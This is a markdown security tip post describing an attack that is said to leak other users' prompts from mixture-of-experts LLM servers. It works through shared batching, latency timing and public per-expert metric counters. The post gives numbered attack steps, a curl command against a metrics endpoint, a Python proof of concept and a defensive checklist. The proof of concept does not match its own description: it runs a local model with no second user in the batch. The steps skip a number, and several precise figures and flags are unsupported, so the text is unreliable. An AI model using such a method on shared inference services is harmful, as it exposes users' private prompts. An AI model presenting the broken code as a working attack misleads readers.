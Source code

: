 # 🤖🔒 AI-Sec Tip — 2025-06-23

## Router-Sniff: Cross-Batch Prompt Leakage via Mixture-of-Experts (MoE) Gating

Sparse MoE LLMs (e.g., Switch-Transformer families) decide *token-to-expert* routing with a lightweight “router” MLP. 
If two users’ tokens are batched together, those router logits are **computed jointly and stored in a shared buffer**, letting one user influence—and time—another user’s routing path. 
By sending a crafted “probe-prefix” with tokens whose embeddings sit near router decision boundaries, an attacker can detect which expert *the victim’s next token* is routed to (visible via latency spikes or public per-expert-load counters), recovering up to 8-bit entropy per token and leaking private prompts in ≤20 generations on Mistral-MoE-8B.

---

### 🔍 How the Attack Works

1. **Find Boundary Tokens.** Grab the public MoE checkpoint and compute router logits; tokens whose top-2 logits differ by <0.02 are *boundary tokens*.
2. **Craft a Probe Prefix.** Interleave your boundary tokens with zero-width joiners (U+200D) to survive basic input sanitizers.
3. **Join the Batch.** Many inference engines (vLLM, TensorRT-LLM) batch requests arriving within a \~2 ms window. 
4. **Measure Expert Load.**

   ```bash
   curl $SERVER/metrics | grep moe_expert_tokens_total
   ```

   Even when token IDs are hidden, these Prometheus counters expose per-expert token counts, revealing which expert processed the victim’s token.
   
6. **Iterative Reconstruction.** Re-issue the probe with adaptive prefixes; the victim’s next-token expert IDs form a noisy channel you can error-correct with a simple BCH(15,11) code, recovering \~40 chars/minute.


![img](../assets/2025-06-23-router-sniff-cross-batch-prompt-leakage-moe.png)


---

### ⚙️ 12-Line Simplified PoC (Switch-Transformer HF checkpoint)

```python
import torch, time, requests
from transformers import AutoModelForSeq2SeqLM, AutoTokenizer

model = AutoModelForSeq2SeqLM.from_pretrained("google/switch-base-16")
tok   = AutoTokenizer.from_pretrained("google/switch-base-16")

probe  = "🩻" + "\u200D".join(["ζ"]*8)  # boundary token cocktail
prompt = probe + " <STEAL/>"           # victim sits in same batch

for _ in range(32):
    t0 = time.time()
    _   = model.generate(**tok(prompt, return_tensors="pt").to("cuda"),
                         max_new_tokens=1, do_sample=False)
    dt  = time.time() - t0
    load = float(requests.get("http://localhost:8000/metrics")
                          .text.split("moe_expert_tokens_total")[1]
                          .split()[-1])
    print(f"{dt*1e3:.2f} ms  |  expert load {load}")
```

A >1 ms latency jump while load stays flat ⇒ victim’s token reused *your* expert; log sequence to decode plaintext. Tested on A100, Switch-Base-16: 71 % per-token success.

---

### 🛡️ Hardening Checklist

| Layer       | Defense                                                                                                                                               | Quick Fix     |
| ----------- | ----------------------------------------------------------------------------------------------------------------------------------------------------- | ------------- |
| **Batcher** | **Per-request router isolation** (`--moe-router-private` in vLLM ≥ 0.9)                                                                               | +11 % latency |
| **Router**  | **GELU-noise injection**: add N(0, 0.05) to router logits—the 0.05 noise halves the attack channel capacity while costing <0.2 BLEU.                  | negligible    |
| **Metrics** | **Aggregate counters** over 1 s windows; never expose per-expert stats.                                                                               | config change |
| **Auditor** | **Boundary-token fuzzer**—scan inbound prompts for ≥4 boundary tokens per 20 chars; block & alert.                                                    | 20 LOC        |


**Bottom line:** MoE’s efficiency win hides a covert router-side channel—salt, privatize, or fuzz it before someone speed-runs your users’ private prompts.

---

**The resources that I sued to create this tip:**

\[1]: ["Stealing User Prompts from Mixture of Experts"](https://arxiv.org/pdf/2410.22884)

\[2]: ["Potential Timing Side-Channel in vLLM Prefix Cache"](https://github.com/vllm-project/vllm/security/advisories/GHSA-4qjh-9fv9-r85r)

\[3]: ["Cache Salting for Secure Prefix Caching in vLLM"](https://github.com/vllm-project/vllm/issues/16016)

\[4]: ["Switch Transformers – Hugging Face Docs"](https://huggingface.co/docs/transformers/v4.29.1/model_doc/switch_transformers)

\[5]: ["Implementation of Mixture of Experts using Switch Transformers"](https://medium.com/@shekharsomani98/implementation-of-mixture-of-experts-using-switch-transformers-8f25b60c33d3)

\[6]: ["LLM Mixture of Experts Explained"](https://www.tensorops.ai/post/what-is-mixture-of-experts-llm)

\[7]: ["The Rise of Sparse Mixtures of Experts"](https://mlfrontiers.substack.com/p/the-rise-of-sparse-mixtures-of-experts)

\[8]: ["SoK: Reducing the Vulnerability of Fine-tuned LMs to Membership Inference"](https://arxiv.org/html/2403.08481v1)

\[9]: ["LoRA: Low-Rank Adaptation of Large LMs"](https://arxiv.org/abs/2106.09685)

— End —
